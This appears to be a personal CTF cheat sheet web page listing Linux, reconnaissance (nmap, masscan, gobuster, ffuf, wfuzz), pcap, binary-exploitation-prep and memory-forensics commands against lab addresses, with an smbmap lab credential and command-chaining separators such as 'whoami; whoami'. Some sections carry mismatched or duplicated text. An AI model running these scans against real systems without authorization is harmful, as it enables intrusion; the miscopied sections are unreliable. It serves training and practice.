<link rel="shortcut icon" type="image/x-icon" href="favicon.ico">
# icanhaspii-CTF CheatSheet
## These are my CTF Hacks!  I hope you enjoy!

   
  
[Linux Analysis Commands]

   
    
[Linux Analysis Commands Julia Evans' CheatSheet]

Thank you Julia Evans! See more of her art here: 
<a href="https://wizardzines.com" target="_blank">https://wizardzines.com</a>  
    

   
    
[Linux Analysis Commands - file]

Run this to determine what type of file you are dealing with:  
  

   
    
[Linux Analysis Commands - binwalk]

Run this to view a summary of the file contents:  
  

   
    
[Linux Analysis Commands - strings]

Run this to get the list of printable characters from files.  You can even run strings on a Pcap!  Or, say for example, that you have something you think contains a flag and you know that flag is in the typical CTF format of flag{some_bonus}, you can run the following to cut down on the amount of data you have to parse through. The following will only yield lines of 8 characters or more:  
  
You can also combine strings and grep:  

   
    
[Linux Analysis Commands - java -jar]

The java -jar command will open a .jar file:  
  

   
    
[Linux Analysis Commands - java]

The java command will open a .java file:  
  

   
    
[Linux Analysis Commands - base64]

The base64 decode command will decode a b64 string.  There’s more than one way to invoke the base64 decode command, here are few:  
1. Grab a base64 encoded string such as: Umlja19SMGxsM2Q=  
2. Type the following into your Linux command prompt to echo/print to screen:  
echo 'Umlja19SMGxsM2Q=' | base64 -d  
3. Hit ENTER  
  
4. If you’re feeling really fancy, and you are playing a CTF, you can run the following to echo/print your decoded b64 in standard flag format to your screen:  
echo "flag{$(echo 'Umlja19SMGxsM2Q=' | base64 -d)}"  
  
-Here’s another way:  
1. Grab a base64 encoded string such as: Umlja19SMGxsM2Q=  
2. Type the following into your Linux command prompt:  
Base64 –d  
3. Hit ENTER  
  
4. At the prompt, paste in your base64 encoded string:  
  
5. Hit ENTER again:  
  
6. Finally, hit Control-D on your keyboard:  
  
-And yet another method:  
1. Save your base64 encoded string into a text editor:  
  
2. Type the following into your Linux command prompt to echo/print to screen:  
base64 -d dns.txt >decoded.txt  
  
3. Open your new file, “decoded.txt”:  
  
If you run across encoding similar to below:  
IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String  
[IO.Compression.CompressionMode]::Decompress  
You can try the following “Recipe” in CyberChef to decode:  
(a)From_Base64('A-Za-z0-9%2B/%3D',true,false)  
(b) Raw_Inflate(0,0,%5B'Adaptive','Block'%5D,false,false)  

   
    
[Linux Analysis Commands - ifconfig]

To find your ip address and network configuration, you can use the old ifconfig command (considered depreciated), or the newer ip address command.  It works with any of the following, and of course more in depth combined with switches:  
  
  
  

   
    
[Linux Analysis Commands - realpath]

realpath converts each filename argument to an absolute pathname, which has no components that are symbolic links or the special . or .. directory entries. Each path component in the filename must exist, otherwise realpath will fail and non-zero exit status will be returned.  
href="https://www.google.com/url?q=https://linux.die.net/man/1/realpath&amp;sa=D&amp;source=editors&amp;ust=1699590511374365&amp;usg=AOvVaw1FkT0L7tNSOCrQIqhPv2FA">https://linux.die.net/man/1/realpath</a>  

   
    
[Linux Analysis Commands - SSH]

To find your ip address and network configuration, you can use the old ifconfig command (considered depreciated), or the newer ip address command.  It works with any of the following, and of course more in depth combined with switches:  
https://www.lrz.de/services/compute/courses/x_lecturenotes/191007_OpenSSH_Tutorial_2019.pdf  
https://opensource.com/article/20/9/ssh  
  

   
    
[Linux Analysis Commands - chmod]

chmod +x  
Note: chmod +x (plus x) stands for execute.  
Question:  
I want to write the Ubuntu analogue of a "batch file" (a shell script). But I don't know how to use chmod +x filename command to make it so that the script can be run. Nor do I know where to use it.  
Answer:  
chmod +x on a file (your script) only means, that you'll make it executable. Right click on your script and chose Properties -> Permissions -> Allow executing file as program, leaves you with the exact same result as the command in terminal.  
If a file you want to change permissions on is located within the systems directory you may need to be root, like so: (be careful, while using sudo command)  
sudo chmod +x /usr/share/testfolder/aFile  
https://askubuntu.com/questions/443789/what-does-chmod-x-filename-do-and-how-do-i-use-it  
Question:  
What is the difference between chmod u+x and just chmod +x? I have seen a ton of tutorials that say to use u+x to make scripts executable. However, omitting the u doesn't seem to have any effect.  
Answer:  
The man page of chmod covers that.  
u stands for user.  
g stands for group.  
o stands for others.  
a stands for all.  
That means that chmod u+x somefile will grant only the owner of that file execution permissions whereas chmod +x somefile is the same as chmod a+x somefile.  
<a href="https://askubuntu.com/questions/29589/chmod-ux-versus-chmod-x" target="_blank">https://askubuntu.com/questions/29589/chmod-ux-versus-chmod-x</a>  

   
    
[Linux Analysis Commands - chown]

To give a file permissions so that a regular user can move it or edit it, you can run the following:  
# chown kali NTUSER.DAT.dat  

   
    
[Linux Analysis Commands - Bash]

Bash (Bourne-Again SHell) is one of the most commonly used Unix/Linux shells and is the default shell in many Linux distributions.  
<a href="https://www.freecodecamp.org/news/bash-scripting-tutorial-linux-shell-script-and-command-line-for-beginners" target="_blank">https://www.freecodecamp.org/news/bash-scripting-tutorial-linux-shell-script-and-command-line-for-beginners</a>  
Some of the main delimiters (terminators or redirectors) for Bash commands are as follows: 
whoami; whoami 
whoami|  
> (output to) 
|| (double pipe) 

   
    
[Linux Analysis Commands - top]

The top command displays the Table of Processes:  
  

   
    
[Linux Analysis Commands - ps -elf]

The ps -elf command displays the Process Status:  
<a href="https://www.xitalogy.com/linux-unix/2020/02/22/ps-elf-filter-results-effectively-and-see-if-a-linux-process-is-running.html">https://www.xitalogy.com/linux-unix/2020/02/22/ps-elf-filter-results-effectively-and-see-if-a-linux-process-is-running.html</a>  
  
  
  

   
    
[Linux Analysis Commands - grep]

Some common grep options:  
  
  
grep example: cat cowrie.log.wwhf2020_lab2 | grep CMD  
  
  
Count w/ grep:  
  
  

   
    
[Linux Analysis Commands - curl]

Curl is useful in transferring data without user interaction.  
curl http://nidus-setup:8080  
curl -X POST http://nidus-setup:8080/api/cooler -H "Content-Type: application/json" --data-binary '{"temperature":1000}'  
  

   
    
[Linux Analysis Commands - Nano/VIM Alternative]

<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">Nano/VIM Alternative:</li></ul>

<ul class="c8 lst-kix_list_45-0 start"><li class="c0 li-bullet-0">We can use nano to edit the &ldquo;hosts&rdquo; file:</li></ul>


<ul class="c8 lst-kix_list_46-0 start"><li class="c0 li-bullet-0">We can add office.paper to the &ldquo;hosts&rdquo; file, and hit Control-x, then the &ldquo;y&rdquo; key, and then the &ldquo;Enter&rdquo; key, to Exit and Save:</li></ul>


   
    
[Linux Analysis Commands - cat]

<ul class="c8 lst-kix_list_50-0"><li class="c0 li-bullet-0">cat:</li></ul>
The cat command can be used to display the contents of a file on-screen.

   
    
[Linux Analysis Commands - type]

<ul class="c8 lst-kix_list_50-0"><li class="c0 li-bullet-0">type:</li></ul>
The type command can be used on the Windows Command Line to display the contents of a file on-screen (in case you find yourself gaining access to a Windows box).

   
    
[Linux Analysis Commands - pwsh]

<ul class="c8 lst-kix_list_50-0"><li class="c0 li-bullet-0">pwsh:</li></ul>
PowerShell works on Linux and was already natively on my Kali box. &nbsp;You can use many of the Linux commands in PowerShell that you would from a Linux terminal, such as sudo apt update and others:



 

 

   
  
[Discovery]

   
    
[Discovery - Nmap]

CompariTech Nmap CheatSheet:  
  
Here's a quick initial scan which pipes the output to a file called “scan.initial”: 
Sudo nmap -sV -sC -oN scan.initial 10.10.147.28  
  
Here's another initial scan example which pipes the output to a file called “scan.initial” - this one took quite a bit longer to finish. 
Sudo nmap -A -oN scan.initial 10.10.20.194  
  
Here’s an example that we can run on a port that we know is open, so here we know port 80 is open, and we can pipe those results to a file called scan.initial: 
nmap -A -p 80 10.10.129.65 -oN scan.initial  
  
Here's one more example, which pipes the output to a file called “scan.initial”. I've heard this called "a classic IppSec scan" since he often begins his streams with this scan: 
nmap -sV -sC -oN scan.initial 10.10.73.1  
  
And one more for all of us IppSec fans out there, this is also a common IppSec scan:  
nmap -sC -sV -oA nmapScan1 10.10.10.5  
The sC is for safe scripts or the most common scripts, sV is for "Enumerate Versions", and oA is for "Output All Formats", and then we call the file “NmapScan1”. 
<a href="https://nmap.org/book/nse-usage.html" target="_blank">https://nmap.org/book/nse-usage.html</a> 
<a href="https://www.youtube.com/watch?v=2LNyAbroZUk&ab_channel=IppSec" target="_blank">https://www.youtube.com/watch?v=2LNyAbroZUk&ab_channel=IppSec</a>  
  
sudo nmap -F -sV 10.10.11.143 
sudo nmap -v -sC -sV -oA nm nmap/PlayerTwo 10.10.11.143 
Sudo nmap -sS -A -sC -sV -p- -T 410.10.11.143 
-sC for default enumeration scripts 
-sV for enumerating versions 
-F for a Fast Scan  
  
Nmap Port Scan:  
-p0- asks Nmap to scan every possible TCP port, -v asks Nmap to be verbose about it, -A enables aggressive tests such as remote OS detection, service/version detection, and the Nmap Scripting Engine (NSE). Finally, -T4 enables a more aggressive timing policy to speed up the scan. 
Example: nmap -p0- -v -A -T4 scanme.nmap.org 
<a href="https://nmap.org/book/port-scanning-tutorial.html" target="_blank">https://nmap.org/book/port-scanning-tutorial.html</a> 
Nmap w/ Service enumeration on all ports: 
nmap -p- -sV target_ip  
  
Nmap Version Detection Scan: 
-sV (Version detection).  Alternatively, you can use -A, which enables version detection among other things. 
<a href="https://nmap.org/book/man-version-detection.html" target="_blank">https://nmap.org/book/man-version-detection.html</a>  
  
Nmap Full Scan on all ports w/ -oA FullScan which pipes our output to a file called “FullScan”:  
  
└─# nmap -sVC -T4 -Pn -p- 10.129.136.188 -oA FullScan  
Nmap Syn Scan:  
nmap -sS  
  
Nmap Ping Scan:  
nmap -sn 10.10.89.196  
  
Nmap Version Enumeration Scan:  
nmap -sV 10.10.89.196 

   
    
[Discovery - MasScan]

<a href="https://github.com/robertdavidgraham/masscan" target="_blank">https://github.com/robertdavidgraham/masscan</a>  
MasScan is incredibly powerful and quick but it can break things, for example be careful scanning ICS. 
masscan -p1-65535 10.10.129.65 --rate=1000 -e tun0  
  

   
    
[Discovery - SMBmap]

smbmap -u ubuntu -p S@nta2022 -d workgroup -H 10.10.112.67  
  

   
    
[Discovery - GoBuster]

GoBuster is a tool to catalogue directories. GoBuster can take significantly longer to complete than some of the other Dir searching tools, but that might not necessarily be a bad thing:  
gobuster dir -u 10.10.11.143 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
  
└─# gobuster dir -u 10.10.11.143 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  

===============================================================  

Gobuster v3.1.0  

by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  

===============================================================  

[+] Url:                     http://10.10.11.143  

[+] Method:                  GET  

[+] Threads:                 10  

[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  

[+] Negative Status codes:   404  

[+] User Agent:              gobuster/3.1.0  

[+] Timeout:                 10s  

===============================================================  

2022/05/13 16:44:32 Starting gobuster in directory enumeration mode  

===============================================================  

/manual               (Status: 301) [Size: 235] [--> http://10.10.11.143/manual/]  

===============================================================  

2022/05/13 16:53:14 Finished  

===============================================================  

Another GoBuster Example Below:  

  

   
    
[Discovery - DirSearch]

DirSearch is a robust web content discovery tool:  
dirsearch -u http://SiteYouWantToSearch -e php  
  

   
    
[Discovery - FeroxBuster]

A simple, fast, recursive content discovery tool written in Rust.  Forced browsing is an attack where the aim is to enumerate and access resources that are not referenced by the web application, but are still accessible by an attacker.  feroxbuster uses brute force combined with a wordlist to search for unlinked content in target directories. These resources may store sensitive information about web applications and operational systems, such as source code, credentials, internal network addressing, etc.  This attack is also known as Predictable Resource Location, File Enumeration, Directory Enumeration, and Resource Enumeration.  
<a href="https://github.com/epi052/feroxbuster" target="_blank">https://github.com/epi052/feroxbuster</a>  
<a href="https://epi052.github.io/feroxbuster-docs/docs" target="_blank">https://epi052.github.io/feroxbuster-docs/docs</a>  

   
    
[Discovery - Sublist3r]

Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT. 
<a href="https://www.kali.org/tools/sublist3r" target="_blank">https://www.kali.org/tools/sublist3r</a>  

   
    
[Discovery - Ffuf]

A fast web fuzzer for directory discovery, virtual host discovery, and GET/POST parameter fuzzing.
<a href="https://github.com/ffuf/ffuf" target="_blank">https://github.com/ffuf/ffuf</a> 
<a href="https://www.tsustyle.com/cheatsheets/ffuf-cheatsheet" target="_blank">https://www.tsustyle.com/cheatsheets/ffuf-cheatsheet</a> 
<a href="https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html" target="_blank">https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html</a> 
<a href="https://www.youtube.com/watch?v=QBW70TdxzKo&ab_channel=FuzzingLabs-PatrickVentuzelo" target="_blank">https://www.youtube.com/watch?v=QBW70TdxzKo&ab_channel=FuzzingLabs-PatrickVentuzelo</a> 
<a href="https://www.youtube.com/watch?v=aN3Nayvd7FU&ab_channel=InsiderPhD" target="_blank">https://www.youtube.com/watch?v=aN3Nayvd7FU&ab_channel=InsiderPhD</a>  

Ffuf Example:  

└─# ffuf -u http://10.10.147.28/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/

   
  
[Discovery - Wfuzz]

Wfuzz is a WebApp framework for finding directories, scripts, etc. 
<a href="https://github.com/xmendez/wfuzz" target="_blank">https://github.com/xmendez/wfuzz</a> 
<a href="https://wfuzz.readthedocs.io/en/latest" target="_blank">https://wfuzz.readthedocs.io/en/latest</a> 
<a href="https://www.youtube.com/watch?v=QBW70TdxzKo&ab_channel=FuzzingLabs-PatrickVentuzelo" target="_blank">https://www.youtube.com/watch?v=QBW70TdxzKo&ab_channel=FuzzingLabs-PatrickVentuzelo</a>  

└─$ wfuzz -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u http://host1.metaproblems.com:5730/FUZZ  

/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.  

********************************************************  

* Wfuzz 3.1.0 - The Web Fuzzer                         *  

********************************************************  

Target: http://host1.metaproblems.com:5730/FUZZ  

Total requests: 48  

=====================================================================  

ID           Response   Lines    Word       Chars       Payload                   

=====================================================================  

000000001:   404        9 L      31 W       286 Ch      "ServiceDefinition"    

000000024:   404        9 L      31 W       286 Ch      "oracle"        

000000015:   404        9 L      31 W       286 Ch      "jboss-net"         

000000020:   404        9 L      31 W       286 Ch      "name"          

000000021:   404        9 L      31 W       286 Ch      "names"            

000000022:   404        9 L      31 W       286 Ch      "operation"  

000000023:   404        9 L      31 W       286 Ch      "operations"   

000000003:   404        9 L      31 W       286 Ch      "atom"         

000000007:   404        9 L      31 W       286 Ch      "disco"  

000000025:   404        9 L      31 W       286 Ch      "proxy"        

000000019:   404        9 L      31 W       286 Ch      "methods"         

000000018:   404        9 L      31 W       286 Ch      "manual"       

000000016:   404        9 L      31 W       286 Ch      "jbossws"            

000000009:   404        9 L      31 W       286 Ch      "index"                  

000000006:   404        9 L      31 W       286 Ch      "default"                  

000000017:   404        9 L      31 W       286 Ch      "juddi"                   

000000010:   404        9 L      31 W       286 Ch      "inquire"                 

000000012:   404        9 L      31 W       286 Ch      "inspection"                

000000014:   404        9 L      31 W       286 Ch      "interfaces"                

000000013:   404        9 L      31 W       286 Ch      "interface"                

000000011:   404        9 L      31 W       286 Ch      "inquiryapi"               

000000008:   404        9 L      31 W       286 Ch      "extwsdl"                 

000000026:   404        9 L      31 W       286 Ch      "publish"                

000000045:   404        9 L      31 W       286 Ch      "wsdl"                      

000000004:   404        9 L      31 W       286 Ch      "axis"                      

000000002:   404        9 L      31 W       286 Ch      "admin"                     

000000044:   404        9 L      31 W       286 Ch      "wsatom"                    

000000046:   404        9 L      31 W       286 Ch      "wsgw"                     

000000040:   404        9 L      31 W       286 Ch      "webserviceclient+ssl"     

000000032:   404        9 L      31 W       286 Ch      "svce"                      

000000005:   404        9 L      31 W       286 Ch      "context"                   

000000028:   404        9 L      31 W       286 Ch      "query"                     

000000042:   404        9 L      31 W       286 Ch      "ws"                        

000000039:   404        9 L      31 W       286 Ch      "webserviceclient"         

000000043:   404        9 L      31 W       286 Ch      "ws4ee"                    

000000034:   404        9 L      31 W       286 Ch      "uddiexplorer"              

000000030:   404        9 L      31 W       286 Ch      "service"                  

000000027:   404        9 L      31 W       286 Ch      "publishing"                

000000036:   404        9 L      31 W       286 Ch      "uddilistener"              

000000033:   404        9 L      31 W       286 Ch      "uddi"                      

000000041:   404        9 L      31 W       286 Ch      "webservices"               

000000035:   404        9 L      31 W       286 Ch      "uddigui"                  

000000038:   404        9 L      31 W       286 Ch      "webservice"                

000000037:   404        9 L      31 W       286 Ch      "uddisoap"                  

000000031:   404        9 L      31 W       286 Ch      "services"                  

000000029:   404        9 L      31 W       286 Ch      "rss"                       

000000048:   404        9 L      31 W       286 Ch      "xmethods"                  

000000047:   404        9 L      31 W       286 Ch      "wsil"                      

Total time: 0  

Processed Requests: 48  

Filtered Requests: 0  

Requests/sec.: 0  

 

  
[Pcap Analysis]

   
    
[Pcap Analysis - strings]

Strings  
You can run strings on a Pcap! Below are a couple examples (I like to pipe my results to a .txt file for easier review):  
  

   
    
[Pcap Analysis - TShark]

<a href="https://osqa-ask.wireshark.org/questions/38071/how-to-extract-ip-addresses-from-cap-file-to-text-file" target="_blank">You can extract ip addresses from a Pcap using Tshark</a>  
To extract just the destination ip, type the following command:  
  
To extract both the destination ip and the source ip, type the following command:  
  

   
    
[Pcap Analysis - Zeek]

<a href="https://www.youtube.com/watch?v=bznH1yMyjjo&ab_channel=JohnHubbard" target="_blank">John Hubbard has a fantastic install video</a>  
Zeek installs itself here:  
  
To export logs from a Pcap into Zeek format, type the following syntax (r is for read):  
  

   
    
[Pcap Analysis - RITA]

RITA (Real Intelligence Threat Analytics):  
<a href="https://www.activecountermeasures.com/free-tools/rita" target="_blank">RITA is named in honor of John Strand’s mother who is no longer with us but will always be remembered in this loving way</a>  
<a href="https://www.youtube.com/watch?v=QcQmG5KTLpo&ab_channel=ActiveCountermeasures" target="_blank">Chris Brenton has a fantastic install video</a>  
To import logs from Zeek format into RITA, navigate via command line to the folder where your exported Pcap logs are:  
  
Next, type the following syntax (LogsOily was the name of my pcap, so I called the output folder for RITA the same name):  
  
RITA will tell you when it’s done:  
  

   
    
[Pcap Analysis - TCPflow]

TCPflow is a command-line tool for processing streams. 
<a href="https://linux.die.net/man/1/tcpflow" target="_blank">https://linux.die.net/man/1/tcpflow</a> 
<a href="https://www.geeksforgeeks.org/tcp-flow-analyze-and-debug-network-traffic-in-linux/#" target="_blank">https://www.geeksforgeeks.org/tcp-flow-analyze-and-debug-network-traffic-in-linux/#</a> 
<a href="https://simson.net/ref/2013/2013-12-05_tcpflow-and-BE-update.pdf" target="_blank">https://simson.net/ref/2013/2013-12-05_tcpflow-and-BE-update.pdf</a>  
  
  

 

   
  
[Binary Analysis]

   
    
[Binary Analysis - dmesg command]

Note: Run after you launch an app that you want to find out more about, errors and such.  
The dmesg command is a Linux utility that displays kernel-related messages retrieved from the kernel ring buffer. The ring buffer stores information about hardware, device driver initialization, and messages from kernel modules that take place during system startup.  
<a href="https://phoenixnap.com/kb/dmesg-linux" target="_blank">https://phoenixnap.com/kb/dmesg-linux</a> 
<a href="https://www.geeksforgeeks.org/how-to-use-the-dmesg-command-on-linux" target="_blank">https://www.geeksforgeeks.org/how-to-use-the-dmesg-command-on-linux</a> 
<a href="https://linuxize.com/post/dmesg-command-in-linux" target="_blank">https://linuxize.com/post/dmesg-command-in-linux</a>  
  
  

   
    
[Binary Analysis - readelf command]

readelf displays information about one or more ELF format object files. The options control what particular information to display.  
elffile... are the object files to be examined. 32-bit and 64-bit ELF files are supported, as are archives containing ELF files.  
This program performs a similar function to objdump but it goes into more detail and it exists independently of the BFD (Binary File Descriptor) library, so if there is a bug in BFD, then readelf will not be affected.  
<a href="https://man7.org/linux/man-pages/man1/readelf.1.html" target="_blank">https://man7.org/linux/man-pages/man1/readelf.1.html</a>  
  

   
    
[Binary Analysis - GDB]

readelf displays information about one or more ELF format object files. The options control what particular information to display.  
elffile... are the object files to be examined. 32-bit and 64-bit ELF files are supported, as are archives containing ELF files.  
This program performs a similar function to objdump but it goes into more detail and it exists independently of the BFD (Binary File Descriptor) library, so if there is a bug in BFD, then readelf will not be affected.  
<a href="https://web.stanford.edu/class/archive/cs/cs107/cs107.1186/guide/gdb.html" target="_blank">https://web.stanford.edu/class/archive/cs/cs107/cs107.1186/guide/gdb.html</a>  

   
    
[Binary Analysis - GEF]

Install GEF to enhance GDB.  
<a href="https://github.com/hugsy/gef" target="_blank">https://github.com/hugsy/gef</a> 
<a href="https://hugsy.github.io/gef" target="_blank">https://hugsy.github.io/gef</a>  
Instant Setup - WHAT WORKED FOR ME IS FROM INSIDE GDB, SCROLL DOWN...:  
Simply make sure you have GDB 8.0 or higher compiled with Python3.6+ bindings, then:  
# via the install script 
## using curl 
$ bash -c "$(curl -fsSL https://gef.blah.cat/sh)"  

## using wget 
$ bash -c "$(wget https://gef.blah.cat/sh -O -)"  

# or manually 
$ wget -O ~/.gdbinit-gef.py -q https://gef.blah.cat/py 
$ echo source ~/.gdbinit-gef.py >> ~/.gdbinit  

# or alternatively from inside gdb directly 
$ gdb -q 
(gdb) pi import urllib.request as u, tempfile as t; g=t.NamedTemporaryFile(suffix='-gef.py'); open(g.name, 'wb+').write(u.urlopen('https://tinyurl.com/gef-main').read()); gdb.execute('source %s' % g.name)  
  
Note: to fetch the latest version of GEF (i.e. from the dev branch), simply replace in the URL to https://gef.blah.cat/dev.  --> This is the one I used, however I modified the script just a bit as the given TinyURL was no longer working, but I believe the documentation is now updated.:  
  
  
Step 1. Make sure you are root, or at least use sudo.  
Step 2. Type gdb ./vuln (name of executable):  
  
Step 3: Launch gef 
pi import urllib.request as u, tempfile as t; g=t.NamedTemporaryFile(suffix='-gef.py'); open(g.name, 'wb+').write(u.urlopen('https://tinyurl.com/gef-main').read()); gdb.execute('source %s' % g.name)  
Step 4: Set a break at “Main” and run the program, within gef:  
  
Step 5: Now we can use grep inside of gdb for things like the following:  
  

   
    
[Binary Analysis - PLT vs. GOT]

PLT stands for Procedure Linkage Table which is, put simply, used to call external procedures/functions whose address isn't known in the time of linking, and is left to be resolved by the dynamic linker at run time.  
GOT stands for Global Offsets Table and is similarly used to resolve addresses. Both PLT and GOT and other relocation information is explained in greater length in this article.  
Also, Ian Lance Taylor, the author of GOLD has put up an article series on his blog which is totally worth reading (twenty parts!): entry point here "Linkers part 1".  
<a href="https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got" target="_blank">https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got</a> 
<a href="https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html" target="_blank">https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html</a> 
<a href="https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html" target="_blank">https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html</a> 
<a href="https://www.airs.com/blog/archives/38" target="_blank">https://www.airs.com/blog/archives/38</a>  
Possible Alternative Steps:  
Step 2. Type gdb -q - ENTER:  
  
Step 3. Before you can run gef against your executable, you'll need to launch your program inside of gdb first:  
  
  
Step4: From within GDB, I typed the following:  
  
  

   
    
[Binary Analysis - msf pattern create]

The msf-pattern_create command (Buffer Overflow/Segmentation Fault) 
Generates a unique pattern of characters so that if you want to refer back to where the segmentation fault happened, you can search that due to the text having unique characters.  
  

   
  
[Binary Analysis - gef pattern create]

The gef-pattern_create command (Buffer Overflow/Segmentation Fault) 
Generates a unique pattern of characters so that if you want to refer back to where the segmentation fault happened, you can search that due to the text having unique characters.  
<a href="https://gef-legacy.readthedocs.io/en/latest/commands/pattern" target="_blank">https://gef-legacy.readthedocs.io/en/latest/commands/pattern</a> 
<a href="https://hugsy.github.io/gef/commands/pattern/#pattern-create" target="_blank">https://hugsy.github.io/gef/commands/pattern/#pattern-create</a>  
  
  

   
    
[Binary Analysis - checksec]

The checksec Command Helps Identify Security Properties and Vulnerabilities.  
Must be root, then type: checksec --file=vuln (in this example, vuln is the name of the file we wish to check): 
└─# checksec --file=vuln  
Example1: 
  
  
<a href="https://opensource.com/article/21/6/linux-checksec" target="_blank">https://opensource.com/article/21/6/linux-checksec</a> 
<a href="https://www.systutorials.com/docs/linux/man/7-checksec" target="_blank">https://www.systutorials.com/docs/linux/man/7-checksec</a>  
<a href="https://github.com/slimm609/checksec.sh/blob/main/docs/index.md" target="_blank">https://github.com/slimm609/checksec.sh/blob/main/docs/index.md</a>  
<a href="https://docs.pwntools.com/en/stable/commandline.html#pwn-checksec" target="_blank">https://docs.pwntools.com/en/stable/commandline.html#pwn-checksec</a>  
pwntools has a similar function: 
<a href="https://docs.pwntools.com" target="_blank">https://docs.pwntools.com</a>  
#!/usr/bin/env python3 
import argparse 
import pwn 
elf = pwn.ELF("./vuln") 
print(hex(elf.symbols["win"])) 
  
------  

   
    
[Binary Analysis - ROPgadget]

“ROPgadget comes installed with PWN Tools, so if you have those installed, you should just be able to run ROPgadget.  This will list out all of the potential locations in the binary, based off their address, that will do different, particular things.” -John Hammond  
Type: ROPgadget --binary vuln  
  
(snipped)  
Unique gadgets found: 32,148  
Because there were so many results, we reran ROPgadget and piped the results to a text file for easier searching:  
  
<a href="https://github.com/JonathanSalwan/ROPgadget" target="_blank">https://github.com/JonathanSalwan/ROPgadget</a> 
<a href="http://shell-storm.org/project/ROPgadget" target="_blank">http://shell-storm.org/project/ROPgadget</a>  

   
    
[Binary Analysis - STrace]

The strace command displays the system calls when a command is executed. You specify the command and its arguments following strace. The system calls and their arguments and returned values are displayed on standard error output.  
Note: By default, STrace will only spit out 32 characters, but if your output is getting cut off, you can extend that by customizing how many characters you want to push out, see examples below:  
The following was the output of a partial CTF flag with default STrace settings:  
  
The following was the output of the full CTF flag once I customized my STrace output settings:  
  

   
    
[Binary Analysis - LTrace]

Just as strace displays system calls, ltrace displays the functions, arguments, and results of the executed command in the standard error output. ltrace does not reveal from which libraries functions are called.  

   
    
[Binary Analysis - ObjDump]

ObjDump is a command-line program for displaying various information about object files on Unix-like operating systems. For instance, it can be used as a disassembler to view an executable in assembly form.  
<a href="https://en.wikipedia.org/wiki/Objdump" target="_blank">https://en.wikipedia.org/wiki/Objdump</a> 
<a href="https://www.matteomalvica.com/minutes/binary_analysis" target="_blank">https://www.matteomalvica.com/minutes/binary_analysis</a>  
  

   
    
[Binary Analysis - ObjCopy]

The GNU objcopy utility copies the contents of an object file to another. objcopy uses the GNU BFD Library to read and write the object files. It can write the destination object file in a format different from that of the source object file.  
<a href="https://www.oreilly.com/library/view/linux-in-a/0596004826/re308.html" target="_blank">https://www.oreilly.com/library/view/linux-in-a/0596004826/re308.html</a> 
<a href="https://sourceware.org/binutils/docs/https://www.oreilly.com/library/view/linux-in-a/0596004826/re308.htmlbinutils/objcopy.html" target="_blank">https://sourceware.org/binutils/docs/https://www.oreilly.com/library/view/linux-in-a/0596004826/re308.htmlbinutils/objcopy.html</a>  
<a href="https://en.wikipedia.org/wiki/GNU_Binutils" target="_blank">https://en.wikipedia.org/wiki/GNU_Binutils</a>  

 

   
  
[Memory Analysis]

   
    
[Memory Analysis - Volatility]

Volatility is the world's most widely used framework for extracting digital artifacts from volatile memory (RAM) samples. The extraction techniques are performed completely independent of the system being investigated but offer visibility into the runtime state of the system. 

<a href="https://www.volatilityfoundation.org/releases-vol3" target="_blank">https://www.volatilityfoundation.org/releases-vol3</a> 
<a href="https://github.com/volatilityfoundation/volatility3" target="_blank">https://github.com/volatilityfoundation/volatility3</a> 
<a href="https://github.com/volatilityfoundation/volatility/wiki/Command-Reference" target="_blank">https://github.com/volatilityfoundation/volatility/wiki/Command-Reference</a> 
<a href="https://www.securitynik.com/2022/03/beginning-volatility3-memory-forensics.html" target="_blank">https://www.securitynik.com/2022/03/beginning-volatility3-memory-forensics.html</a> 
<a href="https://andreafortuna.org/2017/11/15/how-to-retrieve-users-passwords-from-a-windows-memory-dump-using-volatility" target="_blank">https://andreafortuna.org/2017/11/15/how-to-retrieve-users-passwords-from-a-windows-memory-dump-using-volatility</a> 
<a href="https://www.youtube.com/watch?v=GRmTBugm4js&t=43s" target="_blank">https://www.youtube.com/watch?v=GRmTBugm4js&t=43</a> 
<a href="https://malwarenailed.blogspot.com/2019/06/suspicious-strings-in-memory.html" target="_blank">https://malwarenailed.blogspot.com/2019/06/suspicious-strings-in-memory.html</a> 
<a href="https://github.com/volatilityfoundation/volatility3/issues/565" target="_blank">https://github.com/volatilityfoundation/volatility3/issues/565</a> 
<a href="https://infosecwriteups.com/memory-analysis-for-beginners-with-volatility-coreflood-trojan-part-1-89981433eeb6" target="_blank">https://infosecwriteups.com/memory-analysis-for-beginners-with-volatility-coreflood-trojan-part-1-89981433eeb6</a> 
<a href="https://evild3ad.com/956/volatility-memory-forensics-basic-usage-for-malware-analysis" target="_blank">https://evild3ad.com/956/volatility-memory-forensics-basic-usage-for-malware-analysis</a> 
<a href="https://medium.com/@gabriel.pirjolescu/demystifying-windows-malware-hunting-part-2-detecting-execution-with-volatility-1a139b194bfc" target="_blank">https://medium.com/@gabriel.pirjolescu/demystifying-windows-malware-hunting-part-2-detecting-execution-with-volatility-1a139b194bfc</a> 
<a href="https://resources.infosecinstitute.com/topic/ransomware-analysis-with-volatility" target="_blank">https://resources.infosecinstitute.com/topic/ransomware-analysis-with-volatility</a> 
